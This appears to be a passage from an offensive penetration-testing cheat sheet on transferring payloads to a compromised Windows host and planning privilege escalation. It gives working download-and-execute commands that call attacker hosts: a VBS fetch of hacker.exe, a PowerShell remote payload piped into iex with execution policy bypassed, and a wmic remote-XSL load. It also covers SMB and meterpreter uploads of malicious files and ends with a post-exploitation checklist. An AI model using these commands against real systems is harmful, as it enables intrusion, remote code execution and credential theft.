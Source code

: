 ```
cscript wget.vbs http://attackerIP/hacker.exe hacker.exe
```

** Powershell IEX**

```
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

```

**Wmic**

```
wmic os get /format:"https://hacker/hacker.xsl"
```

**SMB**

```
smbclient //server/share -c 'cd c:/remote/path ; put local-file remote-file'
```

Starting the server in attacker linux using impacket
```
smbserver.py shareName sharePath
```
In the windows target machine
~~~
C:\>net use /d \\[host]\[share name]
~~~

**If you're in meterpreter shell, you can do many things very easily, it has many commands and run modules**

To see commands in meterpreter 

``
help
``

To see run commands

``
run <Tab> <Tab>
``
To upload payload or malicious files in windows system by meterpreter

``
upload <filename>
``


**There are many other utilities also that we can use to transfer files in windows system**

After Exploitation and PostEnumeration, the questions arises what we found

* Had we found any kernel exploit for the target system?
* Had we found Unquoted Service Paths?
* Had we found credentials or hashes?
* Had we found any service running on the localhost?
* Had we found a public exploit for any service?
* Had we found Insecure Registry permissions?
* Had we found sessions VNC/RDP/Citrix so that we can try UAC bypasses? 
* what permissions we have?
* ETC.
